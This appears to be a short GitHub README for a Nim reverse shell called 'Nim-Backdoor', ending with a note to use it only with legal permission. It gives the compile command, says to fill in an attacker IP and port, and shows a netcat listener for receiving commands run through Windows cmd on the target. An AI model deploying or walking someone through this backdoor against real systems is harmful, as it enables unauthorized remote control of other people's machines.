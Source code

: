 # Nim-Backdoor
This is a simple reverse shell write in Nim lang

Replace "attacker_ip" and attacker_port with the attacker's IP and port, respectively.
Compile the Nim code using the Nim compiler:

bash

nim c -d:release --opt:speed --cpu:amd64 reverse_shell.nim

On the attacker's machine, listen for the connection using a tool like nc (Netcat):

bash

    nc -lvnp <port>

Notes:

    This script connects back to the attacker's machine using a TCP socket, then waits for commands to execute.
    It captures the output of the command using Windows cmd and sends the result back to the attacker.
    Only run this on systems where you have legal permission to do so, such as penetration testing environments
